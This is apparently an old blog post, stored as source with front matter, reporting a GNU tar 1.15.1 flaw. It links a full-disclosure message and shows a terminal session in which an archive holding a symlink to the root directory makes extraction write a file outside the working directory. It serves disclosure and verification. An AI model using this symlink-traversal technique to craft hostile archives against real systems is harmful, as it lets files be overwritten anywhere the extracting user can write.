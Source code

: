 ```yaml
--- 
layout: post
title: tar exploit in the wild
created: 1164153352
---
```

Just when you thought you were safe...

<a href="http://lists.grok.org.uk/pipermail/full-disclosure/2006-November/050812.html">http://lists.grok.org.uk/pipermail/full-disclosure/2006-November/050812.html</a>

Have tested this and it works as described:

<pre>
nathan@holly /tmp $ tar --version
tar (GNU tar) 1.15.1
nathan@holly /tmp $ ~/tmp/tarxyz > foo.tar
nathan@holly /tmp $ mkdir -p xyz/home/foo
nathan@holly /tmp $ echo "Hello" > xyz/home/foo/hello.txt
nathan@holly /tmp $ tar -rf foo.tar xyz/home/foo
nathan@holly /tmp $ rootdo mkdir /home/foo
nathan@holly /tmp $ rootdo chown nathan /home/foo
nathan@holly /tmp $ rm -rf xyz
nathan@holly /tmp $ tar -xf foo.tar
nathan@holly /tmp $ ls -l xyz
lrwxrwxrwx 1 nathan users 1 Nov 22 00:03 xyz -> /
nathan@holly /tmp $ cat /home/foo/hello.txt
Hello
nathan@holly /tmp $ 
</pre>
